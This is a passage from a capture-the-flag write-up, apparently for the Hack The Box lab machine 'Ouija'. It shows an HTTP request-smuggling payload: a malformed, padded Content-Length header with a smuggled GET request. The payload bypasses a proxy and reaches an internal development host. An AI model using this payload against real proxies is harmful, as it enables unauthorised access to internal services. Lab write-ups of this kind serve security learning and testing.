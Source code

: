 ![disable update content-length](./pic/update_length.png)
	
Now we have our payload ready and we can see what is behind this Proxy with this request (\n\r are important):
```bash
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 40


GET http://dev.ouija.htb/ HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb

  
```
By submitting a bunch of times the request we can see that we have a 200 response, initially it seems just the index.html, but if we scroll to the bottom of the first response we can see the second response that bypassed the proxy restriction.<br>
So we can save the output of the second request to and html file and view it on our local machine:
	